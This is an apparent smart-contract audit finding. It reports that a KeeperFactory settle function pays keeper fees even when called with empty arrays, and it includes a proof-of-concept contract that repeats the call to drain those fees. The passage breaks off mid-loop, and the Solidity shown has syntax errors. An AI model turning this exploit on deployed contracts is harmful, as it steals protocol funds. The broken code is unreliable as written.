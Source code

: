 ```solidity
function settle(bytes32[] memory ids, IMarket[] memory markets, uint256[] memory versions, uint256[] memory maxCounts)
    external
    keep(settleKeepConfig(), msg.data, 0, "")
{
    if (
        ids.length != markets.length ||
        ids.length != versions.length ||
        ids.length != maxCounts.length ||
        // Prevent calldata stuffing
        abi.encodeCall(KeeperFactory.settle, (ids, markets, versions, maxCounts)).length != msg.data.length
    )
        revert KeeperFactoryInvalidSettleError();

    for (uint256 i; i < ids.length; i++)
        IKeeperOracle(address(oracles[ids[i]])).settle(markets[i], versions[i], maxCounts[i]);
}

```

As we can see, function does not check if the length of the array is 0, so if user inputs empty array, the for loop will not be entered, but the keeper still receives a fee via the `keep` modifier.

Attacker can have a contract perform the attack multiple times in a loop to drain all fees:

```solidity
interface IKeeperFactory{
    function settle(bytes32[] memory ids,IMarket[] memory markets,uint256[] memory versions,uint256[] memory maxCounts
    ) external;
}

interface IMarket(
    function update()external;
)

contract AttackContract{

    address public attacker;
    address public keeperFactory;
    IERC20 public keeperToken;

    constructor(address perennialDeployedKeeperFactory, IERC20 _keeperToken){
        attacker=msg.sender;
        keeperFactory=perennialDeployedKeeperFactory;
        keeperToken=_keeperToken;
    }

    function attack()external{
        require(msg.sender==attacker,"not allowed");

        bool canSteal=true;

        // empty arrays as parameters
        bytes32[] memory ids=[];
        IMarket[] memory markets=[];
        uint256[] versions=[];
        uint256[] maxCounts=[];

        // perform attack in a loop till all funds are drained or call reverts
        while(canSteal){
            try IKeeperFactory(keeperFactory).settle(ids,markets,versions,maxCounts){
                //
```
